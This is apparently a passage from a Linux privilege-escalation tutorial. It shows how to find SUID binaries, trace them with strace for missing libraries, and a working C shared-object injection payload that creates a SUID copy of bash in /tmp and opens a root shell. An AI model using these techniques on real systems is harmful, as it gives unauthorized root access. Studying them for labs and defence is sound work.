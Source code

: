 ```bash
find / -perm -04000 -ls 2> /dev/null
```

![Privilege Escalation](./Image/29.png)

![Privilege Escalation](./Image/30.png)

## Shared Object Injection

To identify potential vulnerabilities, you can trace the system calls of a SUID executable with `strace`:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Privilege Escalation](./Image/31.png)

### Malicious Code Example

Here's an example of malicious C code that copies `/bin/bash` to `/tmp`, grants it SUID permissions, and executes it with elevated privileges:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```
